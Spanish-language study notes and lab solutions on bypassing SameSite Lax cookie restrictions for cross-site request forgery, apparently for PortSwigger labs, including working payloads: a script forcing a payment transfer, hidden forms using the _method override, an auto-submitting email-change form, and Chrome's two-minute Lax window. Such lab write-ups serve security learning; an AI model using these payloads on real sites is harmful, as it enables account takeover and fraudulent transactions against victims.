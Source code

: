 ## Lax bypass

Provocando una petición Get desde el navegador de la victima se puede llevar a cabo un csrf

```jsx
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Incluso si no se acepta el método GET algunos frameworks permiten modificar el método de la siguiente manera con el valor(_method)

```jsx
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

### Solución laboratorio **Bypassing SameSite Lax restrictions using GET requests**

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override).

```jsx
<html>
    <body>
            <form action="https://URL-VULNERABLE/my-account/change-email" method="GET" >
            <input type="hidden" name="_method" value="POST">
            <input type="hidden" name="email" value="antu97@test.com" />
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

### Solución al laboratorio con refresco de cookie

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh).

Si un sitio web no incluye un atributo SameSite al configurar una cookie, Chrome aplica automáticamente restricciones Lax de forma predeterminada. Sin embargo, para evitar romper los mecanismos de inicio de sesión único (SSO), en realidad no aplica estas restricciones durante los primeros 120 segundos en las solicitudes POST de nivel superior. Como resultado, hay una ventana de dos minutos en la que los usuarios pueden ser susceptibles a ataques entre sitios.

Para eludir la restricción de la cookie con samesite lax nos aprovechamos de que los primeros 120 segundos se permiten peticiones POST.
